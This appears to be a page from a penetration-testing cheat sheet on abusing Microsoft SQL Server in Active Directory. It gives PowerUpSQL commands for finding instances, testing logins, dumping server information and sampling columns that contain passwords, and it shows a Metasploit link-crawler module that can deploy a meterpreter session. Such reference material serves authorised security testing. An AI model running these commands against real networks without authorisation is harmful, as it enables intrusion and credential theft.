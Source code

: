 # MSSQL AD Abuse

### **MSSQL Enumeration / Discovery** <a href="#mssql-enumeration-discovery" id="mssql-enumeration-discovery"></a>

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

The PowerShell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

Copy

```bash
Import-Module .\PowerupSQL.psd1
```

#### Enumerating from the network without domain session <a href="#enumerating-from-the-network-without-domain-session" id="enumerating-from-the-network-without-domain-session"></a>

{% code overflow="wrap" %}
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have an AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```
{% endcode %}

#### Enumerating from inside the domain <a href="#enumerating-from-inside-the-domain" id="enumerating-from-inside-the-domain"></a>

{% code overflow="wrap" %}
```bash
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in the domain
#This looks for SPNs that start with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose 

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check connectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in Oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
{% endcode %}

### &#x20; <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

### MSSQL Basic Abuse <a href="#mssql-basic-abuse" id="mssql-basic-abuse"></a>

#### Access DB <a href="#access-db" id="access-db"></a>

{% code overflow="wrap" %}
```bash
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
{% endcode %}

### Metasploit

You can easily check for trusted links using Metasploit.

Copy

{% code overflow="wrap" %}
```batch
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
{% endcode %}

Notice that Metasploit will try to abuse only the <mark style="color:orange;">**`openquery()`**</mark> function in MSSQL (so, if you can't execute a command with `openquery()` you will need to try the `EXECUTE` method **manually** to execute commands, see more below.)
